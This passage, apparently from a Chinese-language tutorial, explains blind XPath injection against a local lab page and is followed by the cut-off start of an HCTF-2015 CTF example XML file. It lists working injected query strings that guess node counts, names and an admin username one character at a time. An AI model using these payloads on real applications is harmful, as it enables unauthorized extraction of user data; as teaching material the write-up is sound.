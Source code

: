 

> 以前文的环境为例,如果我们想遍历出整个XML文档,一般步骤如下:
>
> 1.判断根下节点数:
>
> 127.0.0.1/xpath/index.php?name=1' or count(/*)=1 or '1'='1&pwd=fake
>
> result: 1
>
> 2.猜解第一级节点:
>
> 127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake
>
> 127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),2,1)='o' or '1'='1&pwd=fake
>
> ...
>
> result: root
>
> 3.判断root的下一级节点数:
>
> 127.0.0.1/xpath/index.php?name=1' or count(/root/*)=2 or '1'='1&pwd=fake
>
> result: 2
>
> 4.猜解root的下一级节点:
>
> 127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake
>
> 127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=2]),1,1)='s' or '1'='1&pwd=fake
>
> result: users,secret
>
> 重复上述步骤,直到猜解出所有节点.最后来猜解节点中的数据或属性值.
>
> 猜解id为1的user节点下的username值,
>
> 127.0.0.1/xpath/index.php?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake
>
> ...
>
> result: admin

## 3.1. CTF-01

HCTF-2015

~~~xml
<!--t3stt3st.xml-->
<?xml version="1.0" encoding="utf-8"?>
<root1>
	<user>
		<username name='user1'>user1</username>
		<key>KEY:1</key>            
		<username name='user2'>user2</username>
		<key>KEY:2</key>            
		<username name='user3'>user3</username>
		<key>KEY:3</key>            
		<username name='user4'>user4</username>
		<key>KEY:4</key>            
		<username name='user5'>user5</username>
~~~